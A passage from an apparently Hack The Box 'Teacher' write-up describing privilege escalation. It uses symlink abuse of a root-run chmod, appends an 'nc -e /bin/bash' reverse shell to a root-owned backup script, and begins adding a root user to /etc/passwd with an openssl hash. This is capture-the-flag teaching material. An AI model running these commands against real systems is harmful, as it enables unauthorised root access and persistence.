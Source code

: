 Create the link:

```

giovanni@teacher:~/work/tmp$ ln -s /usr/bin/backup.sh 

```

Wait a minute:

![](https://0xdfimages.gitlab.io/img/teacher-chmod.gif)

Now I can add a shell to the script:

```

giovanni@teacher:~/work/tmp$ echo "nc -e /bin/bash 10.10.14.3 443" >> /usr/bin/backup.sh

```

Wait a minute, and get a shell:

```

root@kali# rlwrap nc -lnvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.153.
Ncat: Connection from 10.10.10.153:46014.
id
uid=0(root) gid=0(root) groups=0(root)

```

And `root.txt`:

```

root@teacher:~# cat root.txt 
4f3a83b4...

```

#### /etc/passwd

Rather than getting another callback, what if I just get access to `/etc/passwd`:

```

giovanni@teacher:~/work/tmp$ ln -s /etc/passwd

```

Now I can add myself as root user. First, create a hash:

```

root@kali# openssl passwd -1 -salt xyz password
$1$xyz$cEUv8aN9ehjhMXG/kSFnM1

```

